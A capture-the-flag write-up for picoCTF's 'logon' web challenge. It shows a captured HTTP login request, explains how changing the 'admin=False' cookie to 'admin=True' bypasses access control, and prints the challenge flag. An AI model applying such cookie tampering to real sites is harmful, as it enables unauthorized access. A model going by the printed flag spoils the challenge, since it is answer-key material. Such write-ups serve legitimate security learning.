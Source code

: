 # logon
Description: The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at?
Category: Web Exploitation, 100 points.

## Solution
The problem provides us with a link which when visited, displays a typical login page with a field for a username and password. The description of the problem hints at the username 'Joe". Let's try that first.
Inputting 'Joe' into the username field and leaving the password empty yields a page with a large red box showing the words: "I'm sorry Joe's password is super secure. You're not getting in that way". 
However, it seems like the site only scans the password of Joe, as you can login without a password by using any other username. Doing this yields a page with a green box stating "Success: You logged in! Not sure you'll be able to see the flag though.", and a gray box stating "No flag for you".

Using BurpSuite's HTTP History, we can see the login request: 
```http
GET /problem/15796/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=; username=ratticus; admin=False
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://jupiter.challenges.picoctf.org/problem/15796/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
The username and password cookies are predictable, but there is a third cookie, "admin=False". We can send this login request over to BurpSuite's Repeater to edit and re-forward it.

Changing line 3 of the request to:
```http
Cookie: password=; username=ratticus; admin=True
```
and forwarding the request gives us a new page, now with the green box removed and the gray box proudly displaying the flag.

### Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
